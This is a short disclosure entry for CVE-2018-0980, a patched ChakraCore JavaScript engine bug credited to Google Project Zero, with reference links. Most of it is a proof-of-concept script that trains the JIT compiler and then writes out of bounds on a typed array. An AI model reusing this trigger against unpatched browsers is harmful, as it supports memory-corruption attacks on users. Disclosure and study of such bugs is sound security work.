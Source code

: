# CVE-2018-0980

- Fix: Apr 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, idx) {
    ((arr.length === 0x7ffffff0 && arr[0x7ffffff0]) || false) && (arr.length === 0x7ffffff0 && arr[0x7ffffff1]) || (arr[0x11111111] = 0x1234);
}

function main() {
    let arr = new Uint32Array(1);
    for (let i = 0; i < 10000; i++) {
        opt(arr);
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0980)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1530)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/af07d28d486843bbd1fdefe742a9c090026b32ee)
